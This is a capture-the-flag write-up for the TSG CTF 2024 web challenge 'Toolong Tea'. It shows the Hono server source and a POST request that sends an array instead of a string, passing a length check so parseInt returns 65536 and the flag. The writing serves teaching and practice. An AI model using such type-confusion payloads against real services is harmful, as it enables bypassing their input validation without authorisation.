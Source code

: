```yaml
---
title: TSG CTF 2024 Web Challenge Writeup - Toolong Tea
ogDescription: My TSG CTF 2024 writeup for web challenge "Toolong Tea".
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/toolong-tea-ogimage.png
---
```


# Toolong Tea

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 143 solves / 100 points
- Author: @fabon
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

[http://34.84.32.212:4932](http://34.84.32.212:4932)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241216111852.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152321.png)

In here, we can submit a number. Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152539.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152703.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152740.png)

When we clicked the "submit" button, it'll send a POST request to `/` with a JSON object:

```json
{
    "num":"123"
}
```

After that, the server respond "Please send 65536".

Let's try to submit number 65536!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 15

{"num":"65536"}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Too long!
```

Hmm... "Too long!"?

To have a better understanding in this web application, we'll need to read its source code.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/Web/Toolong-Tea/toolong_tea.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:58(HKT)]
└> file toolong_tea.tar.gz  
toolong_tea.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:59(HKT)]
└> tar xvzf toolong_tea.tar.gz 
toolong_tea/
toolong_tea/Dockerfile
toolong_tea/compose.yaml
toolong_tea/package-lock.json
toolong_tea/package.json
toolong_tea/public/
toolong_tea/public/index.html
toolong_tea/public/main.js
toolong_tea/server.js
```

After reading the source code a little bit, we can have the following findings:
1. This web application is written in JavaScript with framework [Hono](https://www.npmjs.com/package/hono)
2. The main logic of this web application is in `toolong_tea/server.js`

In `toolong_tea/server.js`, we can see that there's a POST route `/`:

```javascript
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();
[...]
app.post("/", async (c) => {
    try {
        const { num } = await c.req.json();
        if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
            const i = parseInt(num, 10);
            if (i === 65536) {
                return c.text(`Congratulations! ${flag}`);
            }
            return c.text("Please send 65536");
        }
        if (num.length > 3) {
            return c.text("Too long!");
        }
        return c.text("Please send 3-digit integer");
    } catch {
        return c.text("Invalid JSON", 500);
    }
});
```

In this route, if our JSON object's attribute `num` length is 3 and its value is all digit, it'll use `parseInt` to parse our string to integer (base 10). **If the parsed integer is `65536`**, it'll return the flag in the JSON response.

With that said, we need to send number `65536` to get the flag.

Wait, how? Isn't this if statement will check our attribute `num`'s length is equal to `3`?

```javascript
const { num } = await c.req.json();
if (num.length === 3 && [...]) {
    [...]
}
```

How can we bypass this?

Well... Since **it doesn't check the attribute `num` to be type string**, we can send the `num` attribute with value of **3 array items** like this:

```json
{
    "num":[
        "123",
        "456",
        "789"
    ]
}
```

By doing so, the `num`'s length is `3`, which bypasses the length check.

Now, here's the question: **Can `parseInt` parse an array?**

Let's try to test that!

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:31:38(HKT)]
└> node                      
[...]
> parseInt(["123", "456", "789"], 10);
123
```

Oh! It can! And it parsed the first item in the array!

## Exploitation

Armed with the above information, we can send the following POST request to get the flag!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 73

{
    "num":[
        "65536",
        "456",
        "789"
    ]
}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```

- **Flag: `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`**

## Conclusion

What we've learned:

1. Bypass validation via missing type checking